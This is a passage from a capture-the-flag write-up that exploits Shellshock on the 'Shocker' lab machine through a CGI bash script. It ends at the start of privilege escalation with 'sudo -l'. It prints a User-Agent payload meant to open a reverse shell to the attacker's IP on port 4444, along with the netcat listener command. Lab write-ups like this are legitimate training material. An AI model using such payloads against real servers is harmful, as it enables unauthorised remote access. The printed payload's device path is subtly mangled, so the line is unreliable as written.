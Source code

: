 ![](../img/Shocker Writeup wo Metasploit/1_8T89q13HIQDm_qSH2S0Ahg.png)

I get back a bash script (user.sh). When I visit the URL, it prompts me to download the file.

![](../img/Shocker Writeup wo Metasploit/1_QMIi7XxN5PhTCPSA-BE8KQ.png)

Opening the file shows us the following content.

![](../img/Shocker Writeup wo Metasploit/1_-fW0N1kfcO3WO5GV8_nP7Q.png)

Fire up burp and intercept the request to the bash script. The send it to Repeater.

![](../img/Shocker Writeup wo Metasploit/1_mOZJLz4zlo39yGYVJUiJHg.png)

The above image shows the request to the bash script and the response we get from the server. Now let’s try to see if it is vulnerable to shellshock.

# Gaining an Initial Foothold

I googled “shellshock reverse shell” and found this [blog](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explaining how to exploit the shellshock vulnerability to get a reverse shell on the system the web server is running on.

First add the following string in the User Agent field in Burp.

```
() { ignored;};/bin/bash -i >& /dev/10.10.14.6/4444/port 0>&1
```

Then start up a listener on your attack machine using the same configuration in the above string.

```
nc -nlvp 4444
```

Go back to Burp and execute the request.

![](../img/Shocker Writeup wo Metasploit/1_R_U6_V9WN-4hZH5Qmi9Rzw.png)

Burp shouldn’t give you a response if the exploit worked. Go back to your listener and check if you got a shell back.

![](../img/Shocker Writeup wo Metasploit/1_6kwwtFfspkld_ybhtoMSfA.png)

We got back a low privileged shell! Grab the user flag.

![](../img/Shocker Writeup wo Metasploit/1_DZq0am-ZhF7iiZKUuDli9w.png)

It’s time to escalate privileges.

# Privilege Escalation

Run the following command to determine what permissions you have.

```
sudo -l
```
